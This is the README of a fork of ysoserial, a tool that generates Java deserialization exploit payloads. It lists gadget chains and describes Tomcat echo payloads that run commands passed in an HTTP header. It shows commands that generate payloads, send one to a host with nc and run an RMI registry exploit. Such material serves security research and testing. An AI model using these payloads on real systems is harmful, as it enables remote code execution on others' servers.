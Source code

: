 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Updates By Me:

打包好的 jar 可以直接下载使用: [https://github.com/zema1/ysoserial/releases](https://github.com/zema1/ysoserial/releases)

+ 添加 `CommonsCollectionsK1` (commons-Collections <= 3.2.1 && allowTemplates)
+ 添加 `CommonsCollectionsK2` (commons-Collections == 4.0 && allowTemplates)
+ 添加 `CommonsCollectionsK3` (commons-Collections <= 3.2.1)
+ 添加 `CommonsCollectionsK4` (commons-Collections == 4.0)
+ 添加 `Jdk8u20` （Jdk7u21 的版本延伸 Gadget)
+ 添加 全版本 Tomcat 回显 payload, 自带下列 Gadget，如有需要可以自己组合
    + `CommonsCollectionsK1TomcatEcho`
    + `CommonsCollectionsK2TomcatEcho`
+ 缩减了 Templates 字节码的大小，可以避免超过 tomcat header 大小等。

CommonsCollectionsKx 这 4 条利用链在效果上可以完全代替且超越之前的 CommonsCollection7 条链，
他们以最小的依赖兼顾了 CC 中的各种利用链。其中 K1,K2 是一条链的两个版本，K3,K4 是一条链的两个版本。

Tomcat 回显使用时随便输入一个命令作为占位符即可，真正的命令在 http 请求 header 中指定, 规则如下:
+ Testecho: 123 将在响应 header 回显 Testecho: 123， 可以用于可靠漏洞检测
+ Testcmd: id 将执行 id 命令，并将回显写在响应 body，可以方便的用于命令执行
```
java -jar target/ysoserial-0.0.8-SNAPSHOT-all.jar CommonsCollectionsK1TomcatEcho a > out.bin
```

例如：使用 CommonsCollectionsK1TomcatEcho 打 shiro 1.2.24 的默认环境

![image](https://user-images.githubusercontent.com/20637881/88356652-2275ec80-cd9b-11ea-9746-8888fceb93b4.png)

最后，关于使用方法上，推荐使用 java6 来运行，因为会影响 TemplatesTmpl 最终生成的 payload, 由于 Java 向下兼容，java6 将获得最大兼容性，简易用法如下:
```
JAVA_HOME=/path/to/java6 java -jar target/ysoserial-0.0.8-SNAPSHOT-all.jar
```

## 感谢

+ 有位师傅之前写过一个和 K1 基本一致的链，算是英雄所见略同。 [wh1t3p1g](https://github.com/wh1t3p1g/ysoserial)
+ K3 参考了这位师傅的研究 https://xz.aliyun.com/t/7157
+ Jdk8u20 是这个改进 https://github.com/pwntester/JRE8u20_RCE_Gadget 相比原版非常稳定，paylaod 也更小

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.8-SNAPSHOT-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Jul 24, 2020 10:48:52 AM org.reflections.Reflections scan
INFO: Reflections took 203 ms to scan 1 urls, producing 17 keys and 172 values
     Payload                        Authors                                Dependencies
     -------                        -------                                ------------
     BeanShell1                     @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                           @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure                        @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1              @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1            @frohoff                               commons-collections:<=3.2.1
     CommonsCollections2            @frohoff                               commons-collections4:4.0
     CommonsCollections3            @frohoff                               commons-collections:<=3.2.1
     CommonsCollections4            @frohoff                               commons-collections4:4.0
     CommonsCollections5            @matthias_kaiser, @jasinner            commons-collections:<=3.2.1
     CommonsCollections6            @matthias_kaiser                       commons-collections:<=3.2.1
     CommonsCollections7            @scristalli, @hanyrax, @EdoardoVignati commons-collections:<=3.2.1
     CommonsCollectionsK1           @koalr                                 commons-collections:<=3.2.1
     CommonsCollectionsK1TomcatEcho @koalr                                 commons-collections:<=3.2.1
     CommonsCollectionsK2           @koalr                                 commons-collections4:4.0
     CommonsCollectionsK2TomcatEcho @koalr                                 commons-collections4:4.0
     CommonsCollectionsK3           @koalr                                 commons-collections:<=3.2.1
     CommonsCollectionsK4           @koalr                                 commons-collections4:4.0
     FileUpload1                    @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1                        @frohoff                               groovy:2.3.9
     Hibernate1                     @mbechler
     Hibernate2                     @mbechler
     JBossInterceptors1             @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient                     @mbechler
     JRMPListener                   @mbechler
     JSON1                          @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1                 @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21                        @frohoff
     Jdk8u20                        @pwntester, @koalr
     Jython1                        @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1                  @matthias_kaiser                       js:1.7R2
     MozillaRhino2                  @_tint0                                js:1.7R2
     Myfaces1                       @mbechler
     Myfaces2                       @mbechler
     ROME                           @mbechler                              rome:1.0
     Spring1                        @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2                        @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS                         @gebl
     Vaadin1                        @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1                        @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```
